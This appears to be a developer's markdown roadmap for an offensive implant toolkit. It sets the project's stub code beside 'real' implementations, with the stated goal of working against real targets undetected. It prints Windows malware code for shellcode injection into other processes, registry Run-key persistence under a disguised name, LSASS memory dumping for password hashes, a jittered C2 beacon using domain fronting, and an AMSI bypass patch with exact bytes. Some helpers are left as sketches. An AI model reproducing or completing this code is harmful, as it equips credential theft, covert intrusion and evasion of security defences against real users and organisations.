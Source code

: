 # 🔍 REAL vs FAKE Implementation Comparison

## 1. Command Execution (elite_shell.py)

### ❌ CURRENT FAKE IMPLEMENTATION:
```python
# Unix implementation using subprocess with security enhancements
process = # Native implementation needed
class FakeProcess:
    def __init__(self):
        self.returncode = 0
        self.stdout = "Native implementation required"
process = FakeProcess()
```

### ✅ WHAT REAL IMPLEMENTATION LOOKS LIKE:
```python
# Real Unix implementation using os.fork() and exec()
import os
import pty

def unix_shell_real(command):
    # Create pseudo-terminal
    master, slave = pty.openpty()
    
    pid = os.fork()
    if pid == 0:  # Child process
        os.close(master)
        os.dup2(slave, 0)
        os.dup2(slave, 1)
        os.dup2(slave, 2)
        
        # Execute command directly
        os.execv('/bin/sh', ['/bin/sh', '-c', command])
    else:  # Parent process
        os.close(slave)
        output = os.read(master, 10240)
        os.waitpid(pid, 0)
        return output.decode()
```

## 2. Process Injection 

### ❌ CURRENT STATUS:
- Windows: Has CreateToolhelp32Snapshot but no actual injection
- No process hollowing
- No reflective DLL injection
- No APC injection

### ✅ REAL IMPLEMENTATION NEEDS:
```python
# Real process injection using Windows APIs
def inject_shellcode(pid, shellcode):
    # Open target process
    PROCESS_ALL_ACCESS = 0x1F0FFF
    hProcess = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)
    
    # Allocate memory in target
    MEM_COMMIT = 0x1000
    PAGE_EXECUTE_READWRITE = 0x40
    addr = kernel32.VirtualAllocEx(hProcess, 0, len(shellcode), 
                                   MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    
    # Write shellcode
    kernel32.WriteProcessMemory(hProcess, addr, shellcode, len(shellcode), 0)
    
    # Create remote thread
    kernel32.CreateRemoteThread(hProcess, 0, 0, addr, 0, 0, 0)
```

## 3. Persistence

### ❌ CURRENT: Just comments saying "native APIs"
### ✅ REAL: Actual registry modification, service creation
```python
# Real Windows persistence
import winreg

def add_registry_persistence(path):
    key = winreg.OpenKey(winreg.HKEY_CURRENT_USER,
                        r"Software\Microsoft\Windows\CurrentVersion\Run",
                        0, winreg.KEY_WRITE)
    winreg.SetValueEx(key, "SystemUpdate", 0, winreg.REG_SZ, path)
    
    # Also add to multiple locations for redundancy
    # - Scheduled Tasks via COM
    # - WMI Event Subscriptions
    # - Service installation
```

## 4. Hash Dumping

### ❌ CURRENT: Has structure but no actual LSASS reading
### ✅ REAL: Direct LSASS memory access
```python
# Real LSASS dumping
def dump_lsass():
    # Find lsass.exe
    lsass_pid = get_process_id("lsass.exe")
    
    # Open with debug privileges
    hProcess = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 
                          False, lsass_pid)
    
    # Use MiniDumpWriteDump or direct memory reading
    dbghelp.MiniDumpWriteDump(hProcess, lsass_pid, hFile,
                              MiniDumpWithFullMemory, None, None, None)
    
    # Parse SAM hashes from memory
    # Extract NTLM hashes
    # Decrypt using SYSKEY
```

## 5. Payload Generation

### ❌ CURRENT: Broken obfuscation creating invalid Python
### ✅ REAL: Working polymorphic engine
```python
# Real payload generator
def generate_real_payload():
    # Stage 1: Encrypted stub
    stub = create_decryptor_stub()
    
    # Stage 2: Polymorphic engine
    payload = morph_code(original_payload)
    
    # Stage 3: Valid obfuscation
    obfuscated = obfuscate_preserving_syntax(payload)
    
    # Stage 4: Encode without breaking
    final = encode_payload(obfuscated)
    
    # Test it actually runs
    compile(final, '<string>', 'exec')
    return final
```

## 6. C2 Communication

### ❌ CURRENT: No actual beacon/callback system
### ✅ REAL: Full C2 protocol
```python
# Real C2 communication
class C2Client:
    def __init__(self):
        self.session_key = generate_session_key()
        self.beacon_interval = 30 + random.randint(-5, 5)  # Jitter
        
    def beacon(self):
        while True:
            # Encrypt beacon
            data = encrypt({
                'id': self.agent_id,
                'hostname': socket.gethostname(),
                'user': os.getuser(),
                'integrity': self.get_integrity_level()
            })
            
            # Use domain fronting
            response = self.send_via_cdn(data)
            
            # Execute commands
            if response:
                self.execute_tasks(decrypt(response))
            
            # Sleep with jitter
            time.sleep(self.beacon_interval)
```

## 7. Anti-Detection

### ❌ CURRENT: Basic checks, no real evasion
### ✅ REAL: Active evasion
```python
# Real anti-detection
class RealEvasion:
    def bypass_amsi(self):
        # Patch AmsiScanBuffer in memory
        amsi = ctypes.windll.LoadLibrary("amsi.dll")
        AmsiScanBuffer = amsi.AmsiScanBuffer
        
        # Change memory protection
        old_protect = ctypes.c_ulong(0)
        VirtualProtect(AmsiScanBuffer, 8, PAGE_EXECUTE_READWRITE, old_protect)
        
        # Patch with ret 0
        patch = b"\x31\xC0\xC3"  # xor eax, eax; ret
        ctypes.memmove(AmsiScanBuffer, patch, len(patch))
        
    def unhook_apis(self):
        # Read clean DLL from disk
        # Compare with loaded version
        # Restore original bytes
        pass
```

## THE REALITY

**Current State:** 
- 🔴 50% functional
- 🔴 Fake implementations
- 🔴 Won't work against real targets
- 🔴 Easily detected

**What's Needed:**
- ✅ Real native API usage
- ✅ Working memory manipulation
- ✅ Valid obfuscation
- ✅ Actual C2 protocol
- ✅ Real evasion techniques

**Time to implement properly:** 200-400 hours of expert development
**Current implementation level:** Prototype/PoC with patches